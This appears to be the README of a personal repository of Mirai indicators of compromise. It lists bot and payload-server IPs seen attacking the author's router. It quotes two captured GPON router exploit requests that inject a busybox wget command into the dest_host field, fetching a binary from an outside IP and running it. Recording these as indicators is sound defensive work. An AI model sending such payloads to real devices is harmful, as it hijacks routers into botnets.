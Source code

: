 # mirai-ioc
Bots hitting my router. IOC list only updated if they are seen.

bots - Bots IPs hitting the router
server - Payload IPs observed

Payload observed

POST./GponForm/diag_Form?style/.HTTP/1.1..User-Agent:.Hello,.World..Accept:.*/*..Accept-Encoding:.gzip,.deflate..Content-Type:.application/x-www-form-urlencoded....XWebPageName=diag&diag_action=ping&wan_conlist=0&dest_host=`busybox+wget+http://38.57.46.116/bin+-O+/tmp/gaf;sh+/tmp/gaf`&ipv=0

POST./GponForm/diag_Form?style/.HTTP/1.1..User-Agent:.Hello,.World..Accept:.*/*..Accept-Encoding:.gzip,.deflate..Content-Type:.application/x-www-form-urlencoded....XWebPageName=diag&diag_action=ping&wan_conlist=0&dest_host=`busybox+wget+http://45.141.57.52/bin+-O+/tmp/gaf;sh+/tmp/gaf`&ipv=0
